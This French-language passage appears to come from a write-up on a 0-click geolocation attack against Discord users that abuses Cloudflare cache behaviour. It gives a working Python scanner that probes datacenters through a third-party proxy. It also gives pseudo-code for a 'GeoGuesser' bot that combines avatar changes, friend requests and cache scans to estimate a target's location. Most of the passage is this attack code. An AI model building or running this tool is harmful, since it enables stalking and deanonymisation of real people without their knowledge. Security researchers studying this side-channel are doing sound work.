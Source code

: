 ```python
```

### 5.2 Script de Scan des Datacenters

Ce script parcourt une liste de datacenters connus pour vérifier la présence du cache d’une ressource via Cloudflare Teleport.

```python
import requests

datacenters = ["SEA", "IAD", "EWR", "LAX", "CDG"]  # Liste de codes de datacenters

def scanner_cache(url, colo):
    proxy_url = f"https://cfteleport.xyz/?proxy={url}&colo={colo}"
    try:
        response = requests.get(proxy_url, timeout=5)
        cf_cache = response.headers.get('cf-cache-status', 'Inconnu')
        return cf_cache
    except Exception as e:
        return f"Erreur : {e}"

if __name__ == '__main__':
    url = "https://www.namecheap.com/favicon.ico"
    for colo in datacenters:
        statut = scanner_cache(url, colo)
        print(f"Datacenter {colo} - cf-cache-status : {statut}")
```

### 5.3 Pseudo-code du Bot Discord GeoGuesser

Le bot Discord « GeoGuesser » automatise l’attaque 0-clic en combinant changement d’avatar, envoi de demande d’amitié et scan des datacenters pour géolocaliser la cible.

```python
import discord
import asyncio
import random
import requests

client = discord.Client()

def obtenir_image_aleatoire():
    # Générer ou récupérer une image aléatoire pour l'avatar
    # Retourner l'image sous forme de bytes
    with open("avatar_random.png", "rb") as f:
        return f.read()

def envoyer_demande_amitie(target_username):
    # Implémenter la fonction via l'API Discord pour envoyer une demande d'amitie
    pass

def scanner_cache(url, colo):
    proxy_url = f"https://cfteleport.xyz/?proxy={url}&colo={colo}"
    try:
        response = requests.get(proxy_url, timeout=5)
        return response.headers.get('cf-cache-status', 'Inconnu')
    except Exception as e:
        return f"Erreur : {e}"

def calculer_localisation(resultats):
    # Calculer le point médian à partir des datacenters identifiés
    # Retourner une estimation de localisation sous forme de coordonnées ou de description textuelle
    return "Coordonnées estimées (ex. 37.7749° N, 122.4194° W)"

```